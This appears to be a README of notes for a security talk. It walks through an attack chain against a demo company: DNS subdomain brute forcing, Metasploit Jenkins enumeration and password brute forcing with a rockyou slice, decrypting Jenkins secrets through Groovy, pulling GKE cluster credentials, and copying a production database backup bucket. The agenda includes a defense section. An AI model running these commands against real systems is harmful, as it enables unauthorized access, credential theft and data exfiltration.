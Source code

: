 # Notes

## Agenda

1. [Getting To Know / DNS Recon](./02_gettingKnow.md)
2. [Jenkins Enum](./03_jenkinsEnum.md)
3. [Jenkins BruteForce](./04_jenkinsBruteforce.md)
4. [Jenkins Recon / Secret Decrypt](./05_jenkinsDecrypt.md)
6. [GCP Login / Lookaround](./06_cloudAccess.md)
7. [Kubernetes Lookaround](./07_kubernetesLookaround.md)
8. [Storage Exfiltrate](./08_storageExfiltrate.md)
9. [What Would Defend](./09_whatWouldDefend.md)

## Some Notes IC-ME

### DNS Reconnaissance

```bash
dnsrecon -t brt -d nevervictimconsult.xyz --threads 25 -D /usr/share/wordlists/subdomains-top1million-5000.txt
```

### Jenkins BruteForce

```bash
[...]
use auxiliary/scanner/http/jenkins_enum
[...]
sed -n 14342050,14342075p /usr/share/wordlists/rockyou.txt > /root/demotalk/jenkinsBrute/passwordlist.txt
[...]
use auxiliary/scanner/http/jenkins_login
set LOGIN_URL j_spring_security_check
set STOP_ON_SUCCESS true
```

### Cloud Access

```java
println( hudson.util.Secret.decrypt("${ENCRYPTED_PASSPHRASE_OR_PASSWORD}") )
```

```bash
gcloud container clusters get-credentials --region=europe-west3 conduit-k8s-test
[...]
gcloud storage cp -r gs://conduit-database-backup-prod/ .
```

</details>
